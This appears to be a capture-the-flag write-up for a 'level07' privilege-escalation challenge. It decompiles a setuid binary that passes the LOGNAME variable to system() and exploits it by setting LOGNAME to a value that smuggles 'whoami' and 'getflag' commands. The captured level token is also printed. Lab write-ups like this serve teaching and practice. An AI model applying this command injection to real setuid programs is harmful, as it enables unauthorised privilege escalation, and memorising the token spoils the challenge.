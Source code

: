 
-> ls -la

one interesting file

-rwsr-sr-x 1 flag07 level07 ... level07

-> ./level07

level07
From level07 on ida we get:
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char *v3; // eax
  char *v5; // [esp+14h] [ebp-Ch] BYREF
  __gid_t v6; // [esp+18h] [ebp-8h]
  __uid_t v7; // [esp+1Ch] [ebp-4h]

  v6 = getegid();
  v7 = geteuid();
  setresgid(v6, v6, v6);
  setresuid(v7, v7, v7);
  v5 = 0;
  v3 = getenv("LOGNAME");
  asprintf(&v5, "/bin/echo %s ", v3);
  return system(v5);
}

-> strings level07

So an interesting string is found followed by /bin/echo :

LOGNAME
/bin/echo %s

So looks very likely that the script will run /bin/echo %s
with the env var LOGNAME as %s

Let's go !

So i'll check the value of LOGNAME and try to change it

-> printenv | grep LOGNAME

LOGNAME=level07

-> export LOGNAME="pop && whoami && getflag"

-> printenv | grep LOGNAME

LOGNAME=pop && whoami && getflag
-> whoami
level07
-> ./level07
pop
flag07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
-> su level08 ..